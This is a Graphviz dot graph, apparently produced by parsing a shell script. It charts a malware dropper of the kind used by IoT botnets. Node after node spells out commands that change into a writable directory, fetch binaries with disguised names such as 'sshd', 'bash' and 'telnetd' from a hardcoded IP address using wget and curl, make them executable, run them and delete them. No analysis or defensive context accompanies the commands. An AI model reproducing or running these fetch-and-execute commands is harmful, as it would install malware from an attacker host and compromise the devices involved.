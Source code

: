 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://185.73.144.19/ntpd "];
10 -> 12 [label=";,"];
12 [label="curl -O http://185.73.144.19/ntpd "];
12 -> 14 [label=";,"];
14 [label="chmod +x ntpd "];
14 -> 16 [label=";,"];
16 [label="./ntpd "];
16 -> 18 [label=";,"];
18 [label="rm -rf ntpd "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://185.73.144.19/sshd "];
30 -> 32 [label=";,"];
32 [label="curl -O http://185.73.144.19/sshd "];
32 -> 34 [label=";,"];
34 [label="chmod +x sshd "];
34 -> 36 [label=";,"];
36 [label="./sshd "];
36 -> 38 [label=";,"];
38 [label="rm -rf sshd "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://185.73.144.19/openssh "];
50 -> 52 [label=";,"];
52 [label="curl -O http://185.73.144.19/openssh "];
52 -> 54 [label=";,"];
54 [label="chmod +x openssh "];
54 -> 56 [label=";,"];
56 [label="./openssh "];
56 -> 58 [label=";,"];
58 [label="rm -rf openssh "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://185.73.144.19/bash "];
70 -> 72 [label=";,"];
72 [label="curl -O http://185.73.144.19/bash "];
72 -> 74 [label=";,"];
74 [label="chmod +x bash "];
74 -> 76 [label=";,"];
76 [label="./bash "];
76 -> 78 [label=";,"];
78 [label="rm -rf bash "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://185.73.144.19/tftp "];
90 -> 92 [label=";,"];
92 [label="curl -O http://185.73.144.19/tftp "];
92 -> 94 [label=";,"];
94 [label="chmod +x tftp "];
94 -> 96 [label=";,"];
96 [label="./tftp "];
96 -> 98 [label=";,"];
98 [label="rm -rf tftp "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://185.73.144.19/wget "];
110 -> 112 [label=";,"];
112 [label="curl -O http://185.73.144.19/wget "];
112 -> 114 [label=";,"];
114 [label="chmod +x wget "];
114 -> 116 [label=";,"];
116 [label="./wget "];
116 -> 118 [label=";,"];
118 [label="rm -rf wget "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://185.73.144.19/cron "];
130 -> 132 [label=";,"];
132 [label="curl -O http://185.73.144.19/cron "];
132 -> 134 [label=";,"];
134 [label="chmod +x cron "];
134 -> 136 [label=";,"];
136 [label="./cron "];
136 -> 138 [label=";,"];
138 [label="rm -rf cron "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://185.73.144.19/ftp "];
150 -> 152 [label=";,"];
152 [label="curl -O http://185.73.144.19/ftp "];
152 -> 154 [label=";,"];
154 [label="chmod +x ftp "];
154 -> 156 [label=";,"];
156 [label="./ftp "];
156 -> 158 [label=";,"];
158 [label="rm -rf ftp "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://185.73.144.19/pftp "];
170 -> 172 [label=";,"];
172 [label="curl -O http://185.73.144.19/pftp "];
172 -> 174 [label=";,"];
174 [label="chmod +x pftp "];
174 -> 176 [label=";,"];
176 [label="./pftp "];
176 -> 178 [label=";,"];
178 [label="rm -rf pftp "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://185.73.144.19/sh "];
190 -> 192 [label=";,"];
192 [label="curl -O http://185.73.144.19/sh "];
192 -> 194 [label=";,"];
194 [label="chmod +x sh "];
194 -> 196 [label=";,"];
196 [label="./sh "];
196 -> 198 [label=";,"];
198 [label="rm -rf sh "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://185.73.144.19/nut "];
210 -> 212 [label=";,"];
212 [label="curl -O http://185.73.144.19/nut "];
212 -> 214 [label=";,"];
214 [label="chmod +x nut "];
214 -> 216 [label=";,"];
216 [label="./nut "];
216 -> 218 [label=";,"];
218 [label="rm -rf nut "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://185.73.144.19/apache2 "];
230 -> 232 [label=";,"];
232 [label="curl -O http://185.73.144.19/apache2 "];
232 -> 234 [label=";,"];
234 [label="chmod +x apache2 "];
234 -> 236 [label=";,"];
236 [label="./apache2 "];
236 -> 238 [label=";,"];
238 [label="rm -rf apache2 "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://185.73.144.19/telnetd "];
250 -> 252 [label=";,"];
252 [label="curl -O http://185.73.144.19/telnetd "];
252 -> 254 [label=";,"];
254 [label="chmod +x telnetd "];
254 -> 256 [label=";,"];
256 [label="./telnetd "];
256 -> 257 [label=";,"];
}
